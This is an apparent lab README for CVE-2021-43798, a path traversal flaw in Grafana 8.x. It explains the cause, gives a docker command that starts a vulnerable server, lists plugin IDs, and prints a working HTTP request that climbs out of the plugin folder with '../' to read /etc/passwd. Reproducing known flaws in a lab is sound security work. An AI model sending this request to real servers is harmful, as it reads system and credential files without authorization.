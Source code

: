 # Grafana 8.x Plugin Module File Path Traversal (CVE-2021-43798)

[中文版本(Chinese version)](README.zh-cn.md)

Grafana is a multi-platform open source analytics and interactive visualization web application.

In December 2021, a Twitter user disclosed a 0day vulnerability, that unauthenticated attackers could use this vulnerability to step up web path and download arbitrary files through a craft url of Grafana 8.x.

References:

- https://grafana.com/blog/2021/12/07/grafana-8.3.1-8.2.7-8.1.8-and-8.0.7-released-with-high-severity-security-fix/
- https://twitter.com/hacker_/status/1467880514489044993
- https://nosec.org/home/detail/4914.html
- https://mp.weixin.qq.com/s/dqJ3F_fStlj78S0qhQ3Ggw

## Vulnerable environment

Execute following command to start a Grafana server 8.2.6:

```
docker compose up -d
```

After the server start, you can browse the login page at `http://your-ip:3000`, no credential for this vulnerability.

## Exploit

The vulnerability is caused by plugin module, which is able to serve the static file inside the plugin folder. But for lock of check, attacker can use `../` to step up from the plugin folder to parent foler and download arbitrary files.

To exploit the vulnerabilty, you should know a valid plugin id, such as `alertlist`, here are some of common plugin ids:

```
alertlist
cloudwatch
dashlist
elasticsearch
graph
graphite
heatmap
influxdb
mysql
opentsdb
pluginlist
postgres
prometheus
stackdriver
table
text
```

Send following request to retrieve the `/etc/passwd` (you can replace the `alertlist` with any valid plugin id):

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 192.168.1.112:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close


```

![](1.png)
